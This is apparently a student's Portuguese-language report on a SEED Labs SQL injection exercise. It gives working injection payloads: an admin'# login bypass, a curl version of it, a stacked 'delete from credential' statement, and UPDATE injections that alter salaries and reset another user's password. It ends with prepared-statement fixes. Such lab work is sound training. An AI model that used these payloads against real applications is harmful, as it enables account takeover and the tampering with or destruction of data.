






_Samuel Cavalcanti_

# Relatório SQL Injection 


- __Task 1: Get Familiar with SQL Statements__



- __Task 2.1: SQL Injection Attack from webpage__

Resposta: Username, pois ao contrário da senha ele usa exatamente o que eu digitar no comando MYSQL.

o commando digitado foi:
```sql
admin'# 
```
dessa forma ele vai buscar pelo nome admin e com o # vai ignorar a verificação do password.


- __Task 2.2: SQL Injection Attack from command line__

Resposta:

```bash
curl -G -v http://www.seedlabsqlinjection.com/unsafe_home.php --data-urlencode "username=admin'#" --data-urlencode "Password=123"
```

- __Task 2.3: Append a new SQL statement__.

Resposta:

Tentei diferentes statements: 
```sql
admin'; delete from credential;#
admin'; select * from credential; #
admin'; insert into credential (ID,Name,EID,Salary,birth,SSN) Values(7,'Samuel',700000,30000,"4/27",123123123);
```

mas todos falharam não sei o por que.


- __Task 3.1: Modify your own salary__


resposta:

primeiro alterei o nickname para Al




segundo, eu parti do principio que não sabia o nome da coluna de ids  então  chutei que o mesmo nome NickName também era no formulário e deu certo.

```sql
',salary=5000000 where NickName='Al';#
```




- __Task 3.2: Modify other people’ salary__

Primeiro descubro o Employee ID de boby , uma das maneiras é usar a falha de segurança do admin.




Segundo, utilizo o sql injection que anteriormente utilizei para alterar meu salário, agora utilizo para alterar o de bob assim:

```sql
',salary=1 where eid=20000';#
```

ficando assim: 




- __Task 3.3: Modify other people’ password__

Devido a falha de segurança da tarefa 2.1, não preciso da senha para entrar na conta de ninguém. então...

Primeiro logo no admin 


pego o username do boby que é boby. logo na conta do boby:
```sql
boby'#
```

Como o sistema não pergunta a senha antiga para gerar uma nova então simplesmente troco a senha dele para 123456



- __Task 4: Countermeasure — Prepared Statement__

Contra medidas no __unsafe_home.php__
```php
 function getDB() {
        $dbhost="localhost";
        $dbuser="root";
        $dbpass="seedubuntu";
        $dbname="Users";
        // Create a DB connection
        $conn = new mysqli($dbhost, $dbuser, $dbpass, $dbname);
        if ($conn->connect_error) {
          echo "</div>";
          echo "</nav>";
          echo "<div class='container text-center'>";
          die("Connection failed: " . $conn->connect_error . "\n");
          echo "</div>";
        }
        return $conn;
      }

      // create a connection
      $conn = getDB();

      $stmt = $conn->prepare("SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email, nickname, Password
      FROM credential
      WHERE name = ? and password = ? ");
      // Bind parameters to the query
      $stmt->bind_param("ss", $input_uname, $hashed_pwd);
      $stmt->execute();
      $stmt->bind_result($id, $name, $eid, $salary, $birth, $ssn, $phoneNumber, $address, $email, $nickname, $pwd);
      $stmt->fetch();

      if($id!=""){
        // If id exists that means user exists and is successfully authenticated
        drawLayout($id,$name,$eid,$salary,$birth,$ssn,$pwd,$nickname,$email,$address,$phoneNumber);
      }else{
        // User authentication failed
        echo "</div>";
        echo "</nav>";
        echo "<div class='container text-center'>";
        echo "<div class='alert alert-danger'>";
        echo "The account information your provide does not exist.";
        echo "<br>";
        echo "</div>";
        echo "<a href='index.html'>Go back</a>";
        echo "</div>";
        return;
      }
      // close the sql connection
      $conn->close();
```


Contra medidas no __unsafe_edit_backend.php__

```php
function getDB() {
    $dbhost="localhost";
    $dbuser="root";
    $dbpass="seedubuntu";
    $dbname="Users";
    // Create a DB connection
    $conn = new mysqli($dbhost, $dbuser, $dbpass, $dbname);
    if ($conn->connect_error) {
      die("Connection failed: " . $conn->connect_error . "\n");
    }
    return $conn;
  }

  $conn = getDB();
  // Don't do this, this is not safe against SQL injection attack
  $sql="";
  if($input_pwd!=''){
    // In case password field is not empty.
    $hashed_pwd = sha1($input_pwd);
    //Update the password stored in the session.
    $_SESSION['pwd']=$hashed_pwd;

    $stmt = $conn->prepare( "UPDATE credential SET nickname=?,email=?,address=?,Password=?,PhoneNumber=? where ID=?;");
    $stmt->bind_param("sssssi", $input_nickname,$input_email,$input_address,$hashed_pwd,$input_phonenumber,$id);

  }else{
    // if passowrd field is empty.
    $stmt = $conn->prepare( "UPDATE credential SET nickname=?,email=?,address=?,PhoneNumber=? where ID=?;");
    $stmt->bind_param("ssssi", $input_nickname,$input_email,$input_address,$input_phonenumber,$id);
    
   
  }
  $stmt->execute();
  // $conn->query($sql);
  // $conn->close();
  header("Location: unsafe_home.php");
  exit();
```